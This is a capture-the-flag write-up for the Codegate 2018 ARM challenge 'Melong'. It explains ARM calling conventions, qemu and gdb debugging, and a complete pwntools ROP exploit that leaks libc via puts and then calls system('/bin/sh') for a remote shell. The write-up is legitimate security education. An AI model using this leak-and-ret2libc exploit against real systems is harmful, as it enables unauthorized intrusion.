 ```yaml
---
layout: post
---
```

Yesterday I played the Codegate CTF 2018 with Lotus-Eur3kA, a combination with Blue-Lotus and Eur3kA. Unluckily, there are several challenges we didn't solve in time and finally we got rank 21.

## Melong
The challenge is not difficult, but it is the first arm exploit I solved in a CTF game. So I will try to make this wp more detailed.The challenge can be download in [here](https://github.com/Changochen/CTF/tree/master/2018/Codegate/melong).

The exploit in arm is almost the same with that in X86. All we need to know is how arm makes function calls.  
To be short, arm use r0-r3 to store the first 4 argument, with r0 storing the first and r4 the fourth. And no jmp or call instruction in arm, but b or bl instead.

### Program info

Let's take a look in the program
```bash
[*] '/home/ne0/Desktop/codegate/melong/melong'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```
### Debug

To run the program, I use qemu-arm:
```bash
qemu-arm  -g 1234 -L /usr/arm-linux-gnueabi ./melong
```
- -L dir: dir is /path/to/lib_for_arm
- -g port: for remote debug

At another console, run the gdb for arm:
```bash
arm-none-eabi-gdb melong
```
In gdb, we run:
```bash
gdb-peda$ target remote localhost:1234
Remote debugging using localhost:1234
warning: A handler for the OS ABI "GNU/Linux" is not built into this configuration
of GDB.  Attempting to continue with the default armv5t settings.

Warning: not running or target is remote
Save/restore a working gdb session to file as a script
Usage:
    session save [filename]
    session restore [filename]

0xf67ceb00 in ?? ()
gdb-peda$ c
Continuing.
```

Then we see the program running:
```bash
➜  melong qemu-arm -g 1234 -L /usr/arm-linux-gnueabi ./melong 
Welcome to the BPSEC gym

1. Check your bmi
2. Exercise
3. Register personal training
4. Write daily record
5. Have some health menu
6. Out of the gym

Type the number:
```
### Exploit

The logic in the program is easy, so I leave it out. To trigger buffer overflow, all you need to to is:
1. check bmi once
2. Register training, enter -1
3. write dairy with unlimited length,thus overflow.

To find useful gadget, I use ROPgadget, and the only gadget I use is
```armasm
0x00011bbc : pop {r0, pc}
```

The flow is the same as X86:
- Leak the libc address
- Return to main or somewhere else to trigger buffer overflow again
- Get shell

To leak, we set r0=puts got, pc=puts plt.
After puts is called, the program will fetch the eip from stack, so we can fill it with the address we want to return.
Thus the finall exp is

```python
from pwn import *
remote_addr="ch41l3ng3s.codegate.kr"
remote_port=1199

libc=ELF('/usr/arm-linux-gnueabi/lib/libc.so.6')
p=remote(remote_addr,remote_port)

def go(payload):
    choice(1)
    sla('Your height(meters) : ','1')
    sla('Your weight(kilograms) : ','1')
    choice(3)
    sla('take personal training?\n','-1')
    choice(4)
    sl(payload)
    choice(6)
    rl()
 
def hack():
    pop_r0=0x00011bbc
    main=0x110CC
    puts_plt=0x0104A8
    puts_got=0x2301c
    payload='A'*84+p32(pop_r0)+p32(puts_got)+p32(puts_plt)
    payload+=p32(main)*8
    go(payload)
    libc.address=u32(p.recv(4))-libc.symbols['puts']
    lg("LIBc",libc.address)
    payload='A'*84+p32(pop_r0)+p32(libc.search('/bin/sh').next())+p32(libc.symbols['system'])
    go(payload)
    p.interactive()

hack()
```

By the way, the libc is not provided in the attachment. But the libc in the server happens to match my qemu libc. So I solved it without having to find the correct libc

## Zoo
To be continued....
